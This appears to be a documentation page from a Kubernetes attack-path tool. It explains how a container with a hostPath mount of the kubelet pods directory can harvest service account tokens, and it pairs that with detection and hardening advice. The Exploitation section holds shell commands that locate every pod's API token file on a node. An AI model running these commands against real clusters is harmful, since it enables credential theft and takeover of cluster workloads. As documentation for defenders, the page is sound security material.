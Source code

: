 # EXPLOIT_HOST_TRAVERSE

This attack represents the ability to steal a K8s API token from a container via access to a mounted parent volume of the `/var/lib/kubelet/pods` directory.

| Source                                    | Destination                           | MITRE                            |
| ----------------------------------------- | ------------------------------------- |----------------------------------|
| [Volume](../vertices/VOLUME.md) | [Volume](../vertices/VOLUME.md) | [Unsecured Credentials, T1552](https://attack.mitre.org/techniques/T1552/) |

## Details

An attacker in a container with access to the `/var/lib/kubelet/pods` directory or any parent directory of the node via a `hostPath` mount, even readonly, can steal the serviceaccount access tokens of all running pods to perform actions in the K8s API. 

## Prerequisites

A volume containing K8s API tokens is mounted into a container. The canonical case is a node root filesystem mounted readonly via a host path volume mount.

## Checks

Check for mounted directories that contain the service account token paths:

```bash
# The service account tokens are tmpfs mounts themselves so it is very apparent when they are present
cat /proc/self/mounts

# ...
/dev/vda1 /hostpods ext4 ro,relatime,discard 0 0
tmpfs /hostpods/063c7aae-1965-4824-b4f5-a8e7cdc2d224/volumes/kubernetes.io~projected/kube-api-access-zhzgh tmpfs rw,relatime,size=15340756k 0 0
tmpfs /hostpods/648e72af-34a8-4be6-8e7a-9cfac7e7fd94/volumes/kubernetes.io~projected/kube-api-access-hkh28 tmpfs rw,relatime,size=51200k 0 0
tmpfs /hostpods/b8a7238c-83eb-4392-b055-ad08f8b8a218/volumes/kubernetes.io~projected/kube-api-access-xl5fz tmpfs rw,relatime,size=15340756k 0 0
tmpfs /hostpods/5edf50d2-747c-45b2-8b40-210f1bfee866/volumes/kubernetes.io~projected/kube-api-access-2l9sx tmpfs rw,relatime,size=15340756k 0 0
tmpfs /hostpods/f80874b0-1a52-4175-9705-550b75743adf/volumes/kubernetes.io~projected/kube-api-access-8ms4p tmpfs rw,relatime,size=15340756k 0 0
tmpfs /hostpods/2e2811f3-cfb4-41ea-ae51-8e337357e0d0/volumes/kubernetes.io~projected/kube-api-access-7p2hf tmpfs rw,relatime,size=15340756k 0 0
tmpfs /hostpods/37d46741-de8b-45b3-a0a4-874529bb4032/volumes/kubernetes.io~projected/kube-api-access-g8wqm tmpfs rw,relatime,size=15340756k 0 0
tmpfs /hostpods/05ae5550-ac58-47a3-b466-c09944240062/volumes/kubernetes.io~projected/kube-api-access-pdqmc tmpfs rw,relatime,size=15340756k 0 0
tmpfs /hostpods/3a55670f-a784-4d3c-8231-5bf90c54fc87/volumes/kubernetes.io~projected/kube-api-access-2bf8s tmpfs rw,relatime,size=15340756k 0 0
tmpfs /hostpods/b40f8657-5a06-49ed-9128-b807de3281e5/volumes/kubernetes.io~projected/kube-api-access-hjbzn tmpfs rw,relatime,size=15340756k 0 0
tmpfs /hostpods/4eb7074e-133f-4ecc-8fa4-a686cf46ba6d/volumes/kubernetes.io~projected/kube-api-access-wqsqv tmpfs rw,relatime,size=15340756k 0 0
tmpfs /hostpods/23dab617-9d86-4658-823b-12aaab1f0edc/volumes/kubernetes.io~projected/kube-api-access-xd5fl tmpfs rw,relatime,size=15340756k 0 0
tmpfs /hostpods/300cbaef-f0aa-441b-b22d-154bfa31901a/volumes/kubernetes.io~projected/kube-api-access-5xwr4 tmpfs rw,relatime,size=15340756k 0 0
tmpfs /hostpods/e949b9f2-304b-4664-93e5-d0ca79d69448/volumes/kubernetes.io~projected/kube-api-access-xrbr4 tmpfs rw,relatime,size=15340756k 0 0
# ...
```

## Exploitation

If all (or part of) the host filesystem is mounted (/host in our example), steal access tokens for ALL pods running on the node:

```bash
ls /host/var/lib/kubelet/pods/0dc76586-c18c-4db6-b5f2-019f270d3621
# containers  etc-hosts  plugins	volume-subpaths  volumes

find /host/var/lib/kubelet/pods/ -name token -type l 2>/dev/null
#/host/var/lib/kubelet/pods/5a9fc508-8410-444a-bf63-9f11e5979bee/volumes/kubernetes.io~projected/kube-api-access-225d6/token
#/host/var/lib/kubelet/pods/a1176593-34a2-43e6-8bdd-ed10fa148fe7/volumes/kubernetes.io~projected/kube-api-access-ng6px/token
#/host/var/lib/kubelet/pods/10b90d62-6b16-4aa7-9e72-75f18dcca5a8/volumes/kubernetes.io~projected/kube-api-access-j7dsp/token
#/host/var/lib/kubelet/pods/dfbf38ad-2e92-44e0-b05b-8859350b6ea5/volumes/kubernetes.io~projected/kube-api-access-c89ff/token
```

See [IDENTITY_ASSUME](./IDENTITY_ASSUME.md#exploitation) for how to use a captured token.

## Defences

### Monitoring

+ Monitor for access to well-known K8s secrets paths from unusual processes.

### Implement security policies

Use a pod security policy or admission controller to prevent or limit the creation of pods with a `hostPath` mount of parents of `/var/lib/kubelet/pods` or other sensitive locations.

### Prevent service account token automounting

When a pod is being created, it automatically mounts a service account (the default is default service account in the same namespace). Not every pod needs the ability to access the API from within itself.

From version 1.6+ it is possible to prevent *automounting* of serviceaccount tokens on pods using:

```yaml
apiVersion: v1
kind: ServiceAccount
metadata:
  name: sa1
automountServiceAccountToken: false
```

## Calculation

[ExploitHostTraverseToken](../../pkg/kubehound/graph/edge/exploit_host_traverse_token.go)

## References:

+ [The Path Less Traveled: Abusing Kubernetes Defaults (Video)](https://www.youtube.com/watch?v=HmoVSmTIOxM)
+ [The Path Less Traveled: Abusing Kubernetes Defaults (GitHub)](https://github.com/mauilion/blackhat-2019)
+ [Securing Kubernetes Clusters by Eliminating Risky Permissions](https://www.cyberark.com/resources/threat-research-blog/securing-kubernetes-clusters-by-eliminating-risky-permissions)

